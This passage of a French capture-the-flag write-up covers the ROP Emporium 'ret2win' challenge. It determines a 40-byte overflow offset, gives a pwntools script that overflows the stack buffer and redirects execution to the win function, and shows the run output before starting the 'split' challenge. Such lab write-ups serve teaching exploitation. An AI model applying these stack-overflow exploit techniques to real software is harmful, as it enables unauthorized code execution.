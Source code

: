 Le registre RSP contient le pattern `AA0AAFAAb` a l'offset 40. Nous devons donc écrire 40 caractères pour créer un dépassement de tampon exploitable.
Maintenant, écrivons un court exploit avec la suite d'étapes suivantes : 
- Ouvrir le binaire en mode ELF 
- Extraire l’adresse de la fonction 
- Créer un payload contenant l'adresse de la fonction et les 40 octets de bourrage
- Envoyer ce payload dans le binaire 

~~~python
from pwn import *

# Ouverture du binaire pour le traiter avec pwntools
elf = context.binary = ELF('ret2win')

# afficher l addresse de la fonction ret2win
info("Addresse de la fonction visée : %#x", elf.symbols.ret2win)

# création du process pour intéragir avec le binaire
p = process(elf.path)

# recuperation de laddr de ret2win
ret2win = p64(elf.symbols.ret2win)

# creation du payload
payload = "A"*40 + ret2win

# interaction avec le binaire et envoie du payload
p.sendline(payload)
p.recvuntil("Here's your flag:")

# reception du flag
flag = p.recvline()
success(flag)
~~~

Une fois lancé : 

~~~bash
root@kali:~/rop_emporium/ret2win# python exploit.py 
[*] '/root/rop_emporium/ret2win/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] 0x400811 target
[+] Starting local process '/root/rop_emporium/ret2win/ret2win': pid 31770
[+] ROPE{a_placeholder_32byte_flag!}
[*] Stopped process '/root/rop_emporium/ret2win/ret2win' (pid 31770)
~~~

## Split 
Pour rappel, le but ici est de récupérer le contenus du fichier `flag.txt`.
La première étape est de visualiser les sécurités en place sur le binaire :
